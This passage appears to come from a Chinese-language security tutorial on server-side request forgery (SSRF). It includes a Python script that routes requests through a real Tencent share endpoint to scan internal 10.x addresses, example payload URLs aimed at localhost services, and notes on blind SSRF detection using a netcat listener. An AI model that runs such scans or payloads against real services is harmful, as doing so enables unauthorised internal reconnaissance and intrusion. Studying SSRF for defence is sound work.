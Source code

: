 2）自动话扫描：

例如10网段的B、C段扫描

```
#!/usr/bin/env python
# encoding: utf-8
import requests
import time
import random
port = '80'
# fuzz local C 
for c in xrange(0,255):
    for d in xrange(0,255):
        ip = '10.xx.{0}.{1}'.format(c,d)
        payload = 'http://{ip}:{port}/'.format(ip=ip,port=port)
        url = 'http://share.v.t.qq.com/index.php?c=share&a=pageinfo&url={payload}'.format(
            payload=payload)
        # len({"ret":1}) == 9
        if len(requests.get(url).content) != 9:
            print ip, port, 'OPEN', requests.get(url).content
```

更多内容可参考文章[1](https://_thorns.gitbooks.io/sec/content/teng_xun_mou_chu_ssrf_lou_6d1e28_fei_chang_hao_de_.html)  [2](http://thehiddenwiki.pw/files/hacking/Attacks%20and%20sockets:%20smorgasbord%20of%20vulnerabilities.pdf) [猪猪侠](http://xss.one/bug_detail.php?wybug_id=wooyun-2016-0215779)。



### 2.WEB层面图片SSRF无回显之SSRF盲打利用

#### ***从XSS到SSRF***

![1568383446367]({{site.baseurl}}/assets/images/SSRF/4.png)

上图是一次XSS的测试，在经过各种测试之后发现已被过滤的非常严了，各种绕然而并不存在任何XSS问题。然而就这这样结束了吗，其实还存在一个测试点。相信在测试图片XSS经常会遇到如下情况：

![1568385793093]({{site.baseurl}}/assets/images/SSRF/5.png)

对添加的图片会又被GET请求一次，然后图片url地址又是我们可控制的。这时测试面就逃离了限制更加开阔了。为此，只需从外部站点获取一个文件即可，只要该文件含有相应的恶意payload，并且其内容类型为html

`例如：` `http://localhost:4567/?url=http://brutelogic.com.br/poc.svg`或者`http://127.0.0.1:22`

当我们发现SSRF漏洞后，首先要做的事情就是测试所有可用的URL，若存在回显利用方式比较多 。但是若遇到无回显的SSRF。利用方式又值得探讨一番。

#### Bool型SSRF 

   BOOL型SSRF与一般的SSRF的区别在步骤二应用识别,步骤三攻击Payload和步骤四Payload Result. 一般的SSRF在应用识别阶段返回的信息相对较多,比如Banner信息,HTTP Title信息,更有甚的会将整个HTTP的Reponse完全返回. 而Bool型SSRF的却永远只有True or False. 

​      对于Bool型SSRF, 我们不能说Payload打过去就一定成功执行, 就算是返回True, 也不能保证Payload一定执行成功. 所以我们要验证Payload的执行状态信息. 

#### SSRF之盲打SSRF

无回显情况下通过VPS NC监听所有URL Schema存在情况
